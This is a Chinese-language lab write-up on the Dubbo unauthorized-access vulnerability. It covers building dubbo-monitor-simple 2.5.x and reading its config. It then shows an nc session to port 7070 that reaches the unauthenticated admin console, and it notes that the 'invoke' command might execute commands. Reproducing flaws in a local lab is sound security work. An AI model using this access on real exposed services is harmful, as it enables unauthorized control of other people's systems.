

# Dubbo 未授权访问漏洞

## 漏洞简介

Dubbo是阿里巴巴公司开源的一个高性能优秀的 服务框架，使得应用可通过高性能的 RPC 实现服务的输 出和输入功能，可以和 Spring框架无缝集成。dubbo 因配置不当导致未授权访问漏洞。 

## 环境搭建

```
git clone https://github.com/alibaba/dubbo/tree/2.5.x
```

进入dubbo-2.5.x 目录

执行`mvn clean package -Dmaven.test.skip=true`会生成如下结果



在`dubbo-2.5.x/dubbo-simple/dubbo-monitor-simple/target`目录会发现生成了`dubbo-monitor-simple-2.5.10-assembly.tar.gz`，解压这个文件夹

查看配置文件，会看到dubbo协议端口为7070

```
[root@localhost dubbo-monitor-simple-2.5.10]# cat conf/dubbo.properties 

dubbo.container=log4j,spring,registry,jetty
dubbo.application.name=simple-monitor
dubbo.application.owner=
dubbo.registry.address=multicast://224.5.6.7:1234
#dubbo.registry.address=zookeeper://127.0.0.1:2181
#dubbo.registry.address=redis://127.0.0.1:6379
#dubbo.registry.address=dubbo://127.0.0.1:9090
dubbo.protocol.port=7070
dubbo.jetty.port=8080
dubbo.jetty.directory=${user.home}/monitor
dubbo.charts.directory=${dubbo.jetty.directory}/charts
dubbo.statistics.directory=${user.home}/monitor/statistics
dubbo.log4j.file=logs/dubbo-monitor-simple.log

```

启动dubbo

```
[root@localhost dubbo-monitor-simple-2.5.10]# bin/start.sh
```


## 漏洞利用

nc连接`7070`端口，7070端口允许您执行各种管理任务，如查看注册表的状态、列出可用服务和查看注册表的日志级别。

```
[root@localhost dubbo-monitor-simple-2.5.10]# nc 127.0.0.1 7070
ls
com.alibaba.dubbo.monitor.MonitorService
dubbo>help
Please input "help [command]" show detail.
 status [-l]                      - Show status.
 pwd                              - Print working default service.
 trace [service] [method] [times] - Trace the service.
 exit                             - Exit the telnet.
 help [command]                   - Show help.
 invoke [service.]method(args)    - Invoke the service method.
 count [service] [method] [times] - Count the service.
 clear [lines]                    - Clear screen.
 ls [-l] [service]                - List services and methods.
 log level                        - Change log level or show log 
 ps [-l] [port]                   - Print server ports and connections.
 cd [service]                     - Change default service.
dubbo>status
OK
dubbo>pwd
/
```

> 如果服务具有命令执行功能，则使用 "invoke" 命令可能会执行命令，因为 "invoke" 命令用于调用特定的服务方法。